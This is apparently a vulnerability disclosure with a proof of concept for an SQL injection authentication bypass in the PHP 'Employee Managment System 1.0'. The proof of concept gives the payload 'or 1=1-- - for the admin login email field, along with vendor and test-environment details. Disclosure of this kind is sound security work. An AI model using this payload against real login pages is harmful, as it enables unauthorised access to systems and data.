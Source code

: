# Employee Managment System - Authentication Bypass
+ **Exploit Title:** Employee Managment System - Authentication Bypass
+ **Date:** 2024-30-01
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://code-projects.org/employee-management-system-in-php-with-source-code/
+ **Software Link:** https://download.code-projects.org/details/4af079c9-ab82-4b2a-a133-be6989c7f70e
+ **Version:** 1.0
+ **Tested on:** Windows 11 Home + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
Employee Managment System 1.0 allows Authentication Bypass via the `E-mail` and `Password` parameters at "http://localhost/370project//alogin.html". 

## Proof of Concept:
+ Go to this address: "http://localhost/370project//alogin.html"
+ Email : `'or 1=1-- -` Password : `1`  and log in
+ Authentication Bypass Successful !

![Ekran görüntüsü 2024-01-30 155140](https://github.com/BurakSevben/CVEs/assets/117217689/3da05a05-bb11-427d-985c-a050aa17edce)

![Ekran görüntüsü 2024-01-31 174450](https://github.com/BurakSevben/CVEs/assets/117217689/fd9c9640-aec5-4381-bc2a-b79f642cdfd2)
